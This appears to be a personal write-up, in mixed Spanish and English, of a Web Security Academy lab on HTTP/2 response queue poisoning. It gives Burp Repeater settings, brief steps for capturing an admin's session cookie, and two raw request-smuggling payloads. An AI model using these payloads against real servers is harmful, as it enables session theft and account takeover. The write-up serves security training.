 To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

Note
- Enable allow http/2 alpn override in repeater
- change protocol to http2

Solve
-------
- Delete user carlos 
- /admin log every 15 seconds
- The conecction backen is reset every 10 request . SEnd few normal request to get a fresh conection



1º We need send request with second request return 400 less the steal request.
2º When we have a valid request, we copy cookie and use for delete user carlos.
3º in real environments this request its posible has sent for other usert taht not is admin


```html
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```
💥  cuidado con los espacios del final.

```html
POST /x HTTP/2
Host: 0a4100d703970f63c0d0ce3e00900040.web-security-academy.net
Transfer-Encoding: chunked

0

Get /x HTTP/1.1
Host: 0a4100d703970f63c0d0ce3e00900040.web-security-academy.net


```

Después de un millón de inentos XD

![](assets/2022-08-04-11-58-23.png)
